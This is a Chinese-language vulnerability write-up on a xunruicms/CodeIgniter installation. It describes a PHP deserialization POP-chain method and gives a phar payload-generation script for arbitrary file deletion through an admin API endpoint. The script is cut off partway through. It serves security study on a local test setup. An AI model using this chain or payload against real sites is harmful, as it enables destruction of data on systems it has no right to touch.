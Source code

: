 实现了 unlink文件删除的功能，路径构成：`$this->path->$key->$this->prefix`  
`$key`由外部传进来的，为了方便控制，我们直接让外部的`$key`为删除文件路径。`path`和`prefix`为空即可。  
同时，`$key`为 `MemcachedHandler`的`lockKey`

#### 总结

找`POP`链的时候，需要无限套娃，一个对象套一个对象。可以利用的类一般是需要有命名空间。我们第一步找到 `destruct`方法，看看`destruct`观察：可控变量与方法。 第二步：1.根据方法，全局搜索实现的类 2.根据方法传入参数个数类型，全局找到使用`__call`魔术方法的类进行分析。第三步，无限套娃 找到能够触发我们目标功能（RCE，任意文件删除，任意文件写入等等）

Phar反序列化任意文件删除利用
----------------

准备工作
----

漏洞点在 Controler/Admin/Api.php

```php
http://xunruicms-study/admina516ce184c2e.php?c=Api&amp;m=test_attach_domain
```

```php
phar://D:/phpstudy_pro/WWW/phar.jpg/test.txt
```

生成`phar`利用文件脚本

```php
&lt;?php
//=======实现delete方法有，unlink(this-&gt;$path.$this-&gt;prefix.$lockkey)
namespace CodeIgniter\Cache\Handlers;
class FileHandler
{
    public $prefix;
    public $path;
    public function __construct()
    {
        $this-&gt;prefix='';
        $this-&gt;path='';
    }
}

//=======MemcachedHandler中close()有$this-&gt;memcached-&gt;delete($this-&gt;lockKey)
namespace CodeIgniter\Session\Handlers;
class MemcachedHandler
{
    public $lockKey;  //传入delete()的值
    public $memcached;
    public function __construct()
    {           
        //$this-&gt;memcached-&gt;detele($this-&gt;lockKey);
        $this-&gt;lockKey = "D:\\phpstudy_pro\\WWW\\test.test"; //删除的文件路径
        $this-&gt;memcached = new  \CodeIgniter\Cache\Handlers\FileHandler();  //触发下一个delete

    }

}

//==========RedisHandler中destruct有this-&gt;redis-&gt;close()
namespace CodeIgniter\Cache\Handlers;

use Phar;

class RedisHandler
{
     public $redis;
     public function __construct()
     {
```